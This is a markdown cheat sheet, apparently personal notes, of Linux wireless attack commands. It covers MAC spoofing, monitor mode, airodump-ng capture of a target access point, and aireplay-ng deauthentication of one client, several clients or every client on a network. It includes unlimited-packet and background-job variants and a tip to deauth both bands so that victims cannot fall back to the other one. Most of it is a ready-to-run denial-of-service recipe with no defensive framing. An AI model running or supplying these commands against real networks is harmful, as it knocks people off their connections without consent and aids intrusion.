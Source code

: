 ## Listing Interfaces
`ifconfig`
## Enable Interface
`ifconfig <interface-name> up`
## Disable Interface
`ifconfig <interface-name> down`

## Spoof Mac Address
`ifconfig <interface-name> hw ether <new-mac-address>`

# WiFi Band
2.4 -5GHz
abcgn
- a - 5
- b,g - 2.4
- n - 2.4, 5
- ac - < 6 

## Enabling monitor mode
`iwconfig <interface-name> mode monitor`
OR
`airmon-ng start <interface-name>`
## Capture packets and display info on wireless network
`airodump-ng <interface-name>`
ensure adapter is in monitor mode
default band is 2.4GHz

## Change frequency band when checking wireless network
for 5GHz
`airodump-ng --band a <interface-name>`
for both 2.4 and 5GHz
`sudo airodump-ng <interface-name> --band abg`

## Capture packets on an access point
`sudo airodump-ng --channel <access-point-channel> --bssid <access-point-mac-address> <interface-name>`

## Save capture into a file
`sudo airodump-ng --channel <access-point-channel> --write path/to/file --bssid <access-point-mac-address> <interface-name>`


## Deauthentication of a single client on a network
### for 2.4GHz
`aireplay-ng --deauth <number-of-deauth-packets> -a <access-point-mac-address> -c <client-mac-address> <interface-name>`
eg
`aireplay-ng --deauth 10000 -a 11:22:33:44:55 -c 12:23:34:54:56 wlan0`
### for 5GHz
`aireplay-ng --deauth <number-of-deauth-packets> -a <access-point-mac-address> -c <client-mac-address> -D <interface-name>`
## Deauthentication of multiple client on a network
if you want to run in the background ie avoid output of aireplay-ng
this give an avenue to deauth another client
`aireplay-ng --deauth <number-of-deauth-packets> -a <access-point-mac-address> -c <client-mac-address> <interface-name> &>/dev/null &`
it sends this command as a background job
To see background jobs
`jobs`
To stop all jobs
`killall aireplay-ng`
To stop specific jobs
`kill %<job-id>`

## Deauthenticate all clients in a network
Run in first window
`airodump-ng --bssid <access-point-mac-address> --channel <access-point-channel> <interface-name>`
then run this in another window
`aireplay-ng --deauth <number-of-deauth-packet> -a <access-point-mac-address> <interface-name>`

> [!Please note]
> If you want infinite number of deauth packets, set it to 0
> Always watch out for wifis bearing the 2 bands at the same time
> Because if you deauth on one band, the device will switch to the other band. if noticed, deauth both bands
